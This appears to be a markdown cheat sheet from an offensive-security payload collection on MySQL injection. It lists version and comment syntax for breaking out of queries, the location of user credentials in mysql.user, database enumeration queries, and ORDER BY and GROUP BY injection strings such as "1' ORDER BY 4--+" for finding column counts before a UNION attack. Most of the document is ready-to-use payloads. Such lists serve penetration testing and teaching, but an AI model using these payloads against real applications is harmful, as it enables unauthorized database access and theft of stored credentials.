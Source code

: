 # MYSQL Injection

## Summary

* [MYSQL version](#mysql-version)
* [MYSQL Comment](#mysql-comment)
* [MYSQL Database Credentials](#mysql-Database_Credentials)
* [MYSQL Database Name](#mysql-Database_Name)
* [MYSQL Union Based](#mysql-union-based)
* [Detect columns number](#detect-columns-number)


## MYSQL version

```sql

VERSION()
@@VERSION
@@GLOBAL.VERSION

```

## MYSQL comment

```sql
#	Hash comment
/*      C-style comment
-- -	SQL comment
;%00	Nullbyte
`	Backtick
```

## MYSQL Database_Credentials

```sql
Table	mysql.user
Columns	user, password
Current User	user(), current_user(), current_user, system_user(), session_user()

Examples:
SELECT current_user;
```
## MYSQL Database_Name

```sql

Database Names
Tables	information_schema.schemata, mysql.db
Columns	schema_name, db
Current DB	database(), schema()

Examples:
SELECT database();
SELECT schema_name FROM information_schema.schemata;


```

## MYSQL Union Based

### Detect columns number

First you need to know the number of columns

##### Using `order by` or `group by`

Keep incrementing the number until you get a False response.
Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                       
```
or 
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        
```
